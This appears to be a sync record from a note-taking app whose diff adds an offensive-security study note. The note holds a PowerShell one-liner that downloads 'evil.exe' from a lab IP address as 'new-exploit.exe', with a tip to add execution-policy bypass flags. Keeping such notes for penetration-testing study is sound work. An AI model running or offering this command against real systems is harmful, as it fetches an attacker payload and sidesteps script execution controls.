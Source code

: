id: 11699a210f96443d86ac1eb955ce0775
parent_id: 481a3309accb4f02b5f3817d538b10da
item_type: 1
item_id: 069c62b2fe97431686d1072c2f9241aa
item_updated_time: 1643334759163
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"::Main()\"],[1,\"\\\n\\\nDownload a file\\\n\\\n> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/evil.exe', 'new-exploit.exe')\\\n\\\nAdd the execution bypass if required (-nop, -ExecutionPolicy Bypass -NoLogo)\"]],\"start1\":386,\"start2\":386,\"length1\":8,\"length2\":217}]"
metadata_diff: {"new":{"order":1642586493444},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-28T01:59:13.928Z
created_time: 2022-01-28T01:59:13.928Z
type_: 13